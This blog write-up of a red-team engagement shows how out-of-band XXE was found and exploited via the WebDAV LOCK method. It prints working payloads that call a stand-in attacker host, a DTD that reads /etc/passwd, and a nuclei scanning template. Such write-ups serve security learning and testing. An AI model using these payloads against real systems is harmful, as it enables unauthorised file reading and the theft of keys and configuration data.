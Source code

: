 ```yaml
---
layout: post
title: Exploiting Out-Of-Band XXE on Wildfire
date: 2021-02-19
summary: Data Exfiltration using XXE via HTTP LOCK Method
categories: Web Security
tags: [Bugs, Write-Ups, Web Security]
---
```


Hi Everyone 

In this blog ,i will cover one of the intresting vulnerability **Out-Of-Band XXE via HTTP LOCK Method** that i found during the Red Teaming Engagement in a `Product Based Company` and exploited the vulnerability at a **Large Scale**.

<p align="center">
  <img src="/images/xxe/xxe1.png">
</p>

Kudos to all my team members [Herane Malhotra](https://www.linkedin.com/in/herane-malhotra007/), [Lokendra Singh Rawat](https://www.linkedin.com/in/lokendrasinghrawat/), [Prashant Kumar](https://linkedin.com/in/notsoshant) who worked along during the assessment.

<p align="center">
  <img src="https://media.giphy.com/media/l3V0F3M2nJKxt3I2Y/giphy.gif">
</p>

**How it all started ?**

  Under the **Red Teaming Activty** there are many category such as Cyber Threat Intelligence, Internal Adversary Simulation, External Adversary Simulation, Social Engineering,Deep Web / Dark Web Exposure, OSINT, Phising etc,.
  
<p align="center">
  <img src="/images/xxe/xxe2.png">
</p>
  
  This vulnerability was found during the  **External Adversary Simulation** Category, where we used to test for Web Application and Network Assets to find **Critical Server Side** bugs so that we can exfiltrate data to get an inital foothold.
  
**Let's Dive Deep into it!**

* There were hundreds of login pages under the web application pentesting part and credentials that was obtained from Deep / Dark Web Exposure were not working :(

<p align="center">
  <img src="https://media.giphy.com/media/p52j8LBZGNsMJPqqVF/giphy.gif">
</p>

* Found many login pages which was developed by the company to their customers to handle the data between both the parties.

**Step 1:** Intercept the login request using client side proxy like Burp Suite as shown below.

<p align="center">
  <img src="/images/xxe/xxe3.png">
</p>

**Step 2:** Started to check for different HTTP Methods enabled in the application by using **OPTIONS**

<p align="center">
  <img src="/images/xxe/xxe4.png">
</p>

From the above image , it can be observed that there is no reaction from the application , got the same response we see from **GET** method.

<p align="center">
  <img src="https://media.giphy.com/media/3og0INyCmHlNylks9O/giphy.gif">
</p>

**Step 3:** When i removed `login.jsp` and supplied a notexisting value (test) it showed up the different HTTP Methods that are allowed in the application.

<p align="center">
  <img src="/images/xxe/xxe05.png">
</p>

Note : The allowed methods are OPTIONS, MKCOL, PUT, LOCK.

<p align="center">
  <img src="https://media.giphy.com/media/jchcqpyTpIki4/giphy.gif">
</p>

* There is an existing research paper about **WebDav** by **Mikhail Egorov** 

<p align="center">Reference : [What should a hacker know about WebDav?](https://www.slideshare.net/0ang3el/what-should-a-hacker-know-about-webdav)</p>

<p align="center">
  <img src="/images/xxe/xxe12.png">
</p>

* If the application has `PROPPATCH,PROPFIND,LOCK` HTTP methods enabled, it will accept **XML** as input.

**Step 4:** Tried **PUT** method and it returned `403 forbidden error`, but when i tried **LOCK** method it showed up some **XML** data as output as shown below.

<p align="center">
  <img src="/images/xxe/xxe06.png">
</p>

* It was also mentioned that `OOB-XXE` will work with any methods that supports XML input.

<p align="center">
  <img src="/images/xxe/xxe13.png">
</p>

**Step 5:** So i started to test for **OOB-XXE** with basic payload as shown below.

```xml
<!DOCTYPE test [<!ENTITY % xxe SYSTEM "http://youripaddress.com"> %xxe; ]>
```

<p align="center">
  <img src="/images/xxe/xxe7.png">
</p>

Note: We got both the **HTTP** and **DNS** hit from the server.

**Step 6:** Since it is an `Out-Of-Band XXE` , follow the below steps to set-up the environment.

**Note :** We need to host the DTD file on a web server. Here, we used a simple web server on the cloud and pointed the domain `yourdomainname.com` to the server’s public IP address and hosted the file `exploited.dtd` on the server.

Contents of `exploited.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ext "<!ENTITY exfil SYSTEM 'file:///%file;'>">
```

The request body send to the vulnerable URL:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://yourdomainname.com/exploitd.dtd">
%xxe;
%ext;
]>
<foo><u>
&exfil;
</u></foo>
```

<p align="center">
  <img src="/images/xxe/xxe8.png">
</p>

**Step 7:** Now the fun begins , we were able to exfiltrate and read different directory files and sensitive information such as **backup file, configuration file, ssh keys and access logs** etc,.

<p align="center">
  <img src="/images/xxe/xxe9.png">
</p>

<p align="center">
  <img src="/images/xxe/xxe010.png">
</p>

<p align="center">
  <img src="https://media.giphy.com/media/3og0ILLVvPp8d64Jd6/giphy.gif">
</p>

<p align="center"><strong>Exploiting the Flaw in Wildfire</strong></p>

* Since there is a huge number of subdomains , we wrote a nuclei template to detect this **OOB-XXE** as shown below.

```yaml
id: XXE on XXXX Login

info:
  name: XML External Entity-XXXX
  author: dhiyaneshDk
  severity: high

requests:
  - raw: 
      - |
        LOCK /xxxx/test HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Connection: close
        Upgrade-Insecure-Requests: 1
        Cache-Control: max-age=0
        Content-Length: 178
        
        <?xml version="1.0"?>
        <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY % xxe SYSTEM "http://yourdomainname.com/exploitd.dtd">
        %xxe;
        %ext;
        ]>
        <foo><u>
        &exfil
        </u></foo>

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 500
      - type: word
        words:
          - '/root:x:0:0:root:/root:/bin/bash'
        part: body
```

<p align="center">
  <img src="/images/xxe/xxe11.png">
</p>

* There were around **36+ Instance** which was **Vulnerable** to XXE and cross checked all the instance manually.

<p align="center">
  <img src="https://media.giphy.com/media/DffShiJ47fPqM/giphy.gif">
</p>

<p align="center"><strong>Takeaway</strong></p>

<p align="center">
  <img src="/images/xxe/xxe14.png">
</p>

**Impact :** 

The XXE flaw can allow an attacker to turn the XML parser into a proxy which allows local and remote content to be served on request. It allows an attacker to:
* Read files on the application server
* Interact with any back-end or external systems that the application itself can access
* View configuration files present in the system.

**Refernece**

[Apache Jacrabbit WebDav XXE](https://www.youtube.com/watch?v=Hg3AXoG89Gs)       
[Finding and exploiting blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)            
[Advanced XXE Exploitation](https://gosecure.github.io/xxe-workshop/)   
[A Deep Dive into XXE Injection](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)
[Milton Webdav 2.7.0.1 XXE Injection](https://packetstormsecurity.com/files/134178/Milton-Webdav-2.7.0.1-XXE-Injection.html)

<p align="center">
  <img src="https://media.giphy.com/media/XCyJsCbOeTBmEsHIss/giphy.gif">
</p>

Thanks a lot for reading :)
